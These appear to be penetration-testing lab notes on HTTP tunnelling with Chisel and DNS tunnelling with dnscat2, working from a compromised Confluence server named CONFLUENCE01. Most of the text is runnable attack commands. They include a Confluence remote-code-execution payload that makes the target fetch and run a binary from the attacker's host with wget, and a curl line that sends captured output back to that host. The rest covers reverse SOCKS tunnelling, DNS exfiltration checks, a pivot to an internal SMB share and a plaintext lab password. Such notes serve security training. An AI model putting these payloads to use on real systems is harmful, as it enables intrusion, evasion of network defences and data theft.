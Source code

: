 HTTP Tunneling Theory and Practice
==================================

HTTP Tunneling Fundamentals
---------------------------

### Scenario

- CONFLUENCE01 is compromised again, can execute commands via HTTP requests.
- DPI solution is terminating all outbound traffic **except HTTP**.
- Inbound ports are blocked except TCP/8090.
- No reverse shell works (not HTTP), no SSH for the same reason.

### HTTP Tunneling with Chisel

Chisel is a HTTP tunneling tool that encapsulates data streams within HTTP. It also uses SSH, so the HTTP wrapper is safe.

Chisel uses a client/server model — server must be set up.

Reverse port forwarding is particularly useful (like `ssh -R`).

**Plan**: Run Chisel server on Kali, connect via Chisel client from CONFLUENCE01.

Chisel binds a SOCKS proxy port on Kali, encapsulates all packets through SOCKS, pushes through the HTTP tunnel.

### Chisel Setup

#### 1. Copy chisel binary on Kali:

```bash
sudo cp $(which chisel) .
```

#### 2. Download chisel binary on target:

```bash
wget <myip>/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

#### 3. Construct Nashorn-based curl command for RCE on CONFLUENCE01:

```bash
curl http://<targetip>:8090/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','wget <myip>/chisel -O /tmp/chisel && chmod +x /tmp/chisel').start()")}/
```

#### 4. Start Chisel server on Kali:

```bash
chisel server --port 8080 --reverse
```

#### 5. Execute client on CONFLUENCE01:

```bash
/tmp/chisel client <kali-ip>:8080 R:socks > /dev/null 2>&1 &
```

#### 6. Alternative (log errors to file and exfil via curl):

```bash
/tmp/chisel client <myip>:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://<myip>:8080/
```

Corresponding encoded curl RCE payload:

```bash
curl http://<targetip>:8090/${new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("new java.lang.ProcessBuilder().command('bash','-c','/tmp/chisel client <myip>:8080 R:socks &> /tmp/output ; curl --data @/tmp/output http://<myip>:8080/').start()")}/
```

### Compatibility Notes

- If version mismatch or glibc error occurs:
  ```bash
  wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
  gunzip chisel_1.8.1_linux_amd64.gz
  ```

- Serve the correct version from Kali.

- Use `ss -ntplu` to check listening connections.

### SOCKS Proxy with SSH via ProxyCommand

- Use `ncat` (not netcat) to support proxying:

```bash
sudo apt install ncat
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@<targetip>
```

- Proxychains config must be updated to use port 1080.

---

DNS Tunneling Theory and Practice
=================================

DNS Tunneling Fundamentals
--------------------------

- DNS resolves human-readable domains to IPv4/IPv6 via recursive resolution.
- A records contain IPv4 address mappings.
- Recursive resolver queries root → TLD → authoritative name servers.

### Lab Setup

- MULTISERVER03 is DNS.
- FELINEAUTHORITY is authoritative for `feline.corp`.

#### On FELINEAUTHORITY

```bash
cd dns_tunneling
cat dnsmasq.conf
sudo dnsmasq -C dnsmasq.conf -d  # run in foreground
sudo tcpdump -i ens192 udp port 53
```

#### On PGDATABASE01

Check DNS config:

```bash
resolvectl status
nslookup exfiltrated-data.feline.corp
```

If `.feline.corp` queries escape, exfiltration confirmed.

Use TXT records for infiltration:

```bash
sudo dnsmasq -C dnsmasq_txt.conf -d
nslookup -type=txt www.feline.corp
```

### DNS Tunneling with dnscat2

#### On FELINEAUTHORITY

```bash
sudo tcpdump -i ens192 udp port 53
dnscat2-server feline.corp
```

#### On PGDATABASE01

```bash
cd dnscat/
./dnscat feline.corp
```

#### Inside dnscat2

```bash
windows
window -i 1
help
```

To pivot to internal SMB share:

```bash
listen 127.0.0.1:4455 172.16.2.11:445
```

Then on FA:

```bash
smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
```